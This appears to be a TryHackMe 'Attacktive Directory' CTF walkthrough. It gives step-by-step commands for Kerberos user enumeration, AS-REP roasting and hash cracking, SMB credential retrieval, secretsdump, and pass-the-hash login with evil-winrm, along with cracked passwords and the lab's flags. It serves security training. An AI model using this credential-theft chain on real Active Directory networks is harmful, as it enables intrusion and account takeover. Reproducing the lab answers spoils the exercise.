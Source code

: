 # THM - Attacktive Directory

<br>

## Task 2

https://github.com/SecureAuthCorp/impacket

```bash
sudo apt update && sudo apt upgrade

mkdir ../../Tools/impacket

git clone https://github.com/SecureAuthCorp/impacket.git ../../Tools/impacket

pip3 install -r ../../Tools/impacket/requirements.txt

cd ../../Tools/impacket/ && sudo python3 ./setup.py install

sudo apt install bloodhound neo4j
```

## Task 3

http://10.10.68.116/

```bash
cd ../../Rooms/attacktivedirectory/

mkdir scans
nmap -p- -sV -sC -oN scans/nmap.txt 10.10.68.116
```

### Task 3.1

```bash
enum4linux 10.10.68.116 | tee scans/enum4linux.txt
```

> enum4linux

### Task 3.2

> THM-AD

### Task 3.3

> .local

<br>

## Task 4

https://github.com/ropnop/kerbrute/releases

```bash
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt

wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt

../../Tools/kerbrute/kerbrute_linux_amd64 --help

mkdir logs

../../Tools/kerbrute/kerbrute_linux_amd64 userenum --dc 10.10.68.116 -d spookysec.local ./userlist.txt -o ./logs/kerbrute_log.txt
```

### Task 4.1

> userenum

### Task 4.2

> svc-admin

### Task 4.3

> backup

<br>

## Task 5

https://github.com/SecureAuthCorp/impacket

```bash
cat ./logs/kerbrute_log.txt | awk '{ print $0 }' | cut -s -f1 -d"@" | cut -f8 -d" " > validuserlist.txt

python3 ../../Tools/impacket/examples/GetNPUsers.py -no-pass -usersfile validuserlist.txt -dc-ip 10.10.68.116 spookysec.local/ | tee ./logs/GetNPUsers_log.txt
```

### Task 5.1

```bash
cat logs/GetNPUsers_log.txt
```

> svc-admin

### Task 5.2

```bash
haiti '$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:9a0f8dce114bc1506a9eba3734f76c54$84f69648f1ac1abc5616514ae0aca55df62c20c6c04cac5a226591ab5dd9c2e73446d106533170230078421f8ece9a8ec8a5d07c6ce7e308877e599d1507b2ded8a70bcca3d1443c992ed83b3e17b2af54973e7495dde153e083e3362f366b4c7bfd1bb771c31fac47b63cb90254bd8eb5e686a8155f168df5320b82b6876f90a5f260c2a7c83e88d55aa837760868a39e80b46168bf7d4f714bb9897222d80a4737f8b9afcbe5abf87cb29189e09d66d634028fed321a7c0be523ac5b49d9f05755a074a654340415586b5838ee4f3e4b8906bfe48b0f9b26c5841522c22d0c1ff94a1ebd9aa2cf0556ac675a9c33d93fd4' | tee ./logs/haiti_log.txt
```

> Kerberos 5 AS-REP etype 23

### Task 5.3

> 18200

### Task 5.4

```bash
echo '$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:9a0f8dce114bc1506a9eba3734f76c54$84f69648f1ac1abc5616514ae0aca55df62c20c6c04cac5a226591ab5dd9c2e73446d106533170230078421f8ece9a8ec8a5d07c6ce7e308877e599d1507b2ded8a70bcca3d1443c992ed83b3e17b2af54973e7495dde153e083e3362f366b4c7bfd1bb771c31fac47b63cb90254bd8eb5e686a8155f168df5320b82b6876f90a5f260c2a7c83e88d55aa837760868a39e80b46168bf7d4f714bb9897222d80a4737f8b9afcbe5abf87cb29189e09d66d634028fed321a7c0be523ac5b49d9f05755a074a654340415586b5838ee4f3e4b8906bfe48b0f9b26c5841522c22d0c1ff94a1ebd9aa2cf0556ac675a9c33d93fd4' > hash.txt

hashcat -m 18200 -o ./logs/hashcat_log.txt hash.txt passwordlist.txt
```

> management2005

<br>

## Task 6

### Task 6.1

> smbclient

### Task 6.2

> -L

### Task 6.3

```bash
smbclient -L 10.10.68.116 -U "svc-admin" | tee ./scans/smbclient.txt
	management2005
```

> 6

### Task 6.4

> backup

### Task 6.5

```bash
smbclient \\\\10.10.68.116\\backup -U "svc-admin"
	management2005
	
	dir
	get backup_credentials.txt
	exit

cat backup_credentials.txt
```

```bash
cat backup_credentials.txt
```

> YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw

### Task 6.6

```bash
base64 -d backup_credentials.txt | tee backup_credentials_base64_d.txt
```

> backup@spookysec.local:backup2517860

<br>

## Task 7

```bash
python3 ../../Tools/impacket/examples/secretsdump.py spookysec.local/backup:backup2517860@10.10.68.116 | tee logs/secretsdump_log.txt
```

### Task 7.1

> DRSUAPI

### Task 7.2

> 0e0363213e37b94221497260b0bcb4fc

### Task 7.3

> pass the hash

### Task 7.4

```bash
sudo gem install evil-winrm

evil-winrm -h
```

> -H

<br>

## Task 8

### Task 8.1

```shell
evil-winrm -i 10.10.68.116 -u Administrator -H '0e0363213e37b94221497260b0bcb4fc'

	cd C:\Users\svc-admin\Desktop
	dir
	type user.txt.txt
```

> TryHackMe{K3rb3r0s_Pr3_4uth}

### Task 8.2

```shell
	cd C:\Users\backup\Desktop
	dir
	type PrivEsc.txt
```

> TryHackMe{B4ckM3UpSc0tty!}

### Task 8.3

```shell
	cd C:\Users\Administrator\Desktop
	dir
	type root.txt
```

> TryHackMe{4ctiveD1rectoryM4st3r}

<br>

